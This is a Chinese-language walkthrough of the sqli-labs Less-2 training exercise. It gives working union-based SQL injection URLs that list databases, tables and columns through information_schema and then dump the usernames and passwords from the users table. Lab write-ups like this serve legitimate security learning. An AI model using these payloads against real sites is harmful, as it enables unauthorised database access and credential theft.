 ### 查看是否有注入

```
http://192.168.81.135/sqli/Less-2/?id=-1'--+
```

可以看到有注入

![image-20211211101658452](https://gitee.com/xxb667/img/raw/master/img/image-20211211101658452.png)

其他操作请参考Less-1中的内容

### 查看所有数据库

```
http://192.168.81.135/sqli/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```

![image-20211211134331625](https://gitee.com/xxb667/img/raw/master/img/image-20211211134331625.png)

### 查看所有表

```
http://192.168.81.135/sqli/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+
```

table_schema=0x7365637572697479

后面为security的16进制

![image-20211211134651449](https://gitee.com/xxb667/img/raw/master/img/image-20211211134651449.png)

### 查看所有列信息

```
http://192.168.81.135/sqli/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+
```

table_name=0x7573657273

table_name后面为表名users的16进制

![image-20211211135044409](https://gitee.com/xxb667/img/raw/master/img/image-20211211135044409.png)

### 查看账号和密码

```
http://192.168.81.135/sqli/Less-2/?id=-1 union select 1,2,concat_ws(0x7e,username,password) from security.users--+
```

![image-20211211103026536](https://gitee.com/xxb667/img/raw/master/img/image-20211211103026536.png)
